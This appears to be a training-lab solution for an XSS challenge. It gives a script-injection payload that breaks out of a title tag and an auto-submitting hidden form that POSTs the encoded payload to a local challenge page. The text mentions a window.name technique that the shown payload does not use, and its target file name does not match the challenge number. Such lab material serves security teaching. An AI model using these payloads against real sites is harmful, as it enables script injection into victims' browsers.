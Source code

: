 # Challenge 5
Solution and further references for *challenge 5*.

<details>
 <summary>Spoiler: Solution for challenge 5</summary>

**Payload**:
Due to the limitation regarding the character set, one could for instance use `window.name` (= `name` on window scope.) to pass the required `document.domain` to the vulnerable code snippet. 

```html
</title><script>alert(document.domain)</script>
```

**Exploit**:
```html
<html>
  <body>
    <form action="http://127.0.0.1/challenge2.php" method="POST" id="attackForm">
      <input type="hidden" name="q" value="&lt;&#47;title&gt;&lt;script&gt;alert&#40;document&#46;domain&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  <script>attackForm.submit()</script>
  </body>
</html>
```
</details>

## References
Additional information:
* https://developer.mozilla.org/de/docs/Web/API/Window/name
* https://developer.mozilla.org/en-US/docs/Web/API/Window/open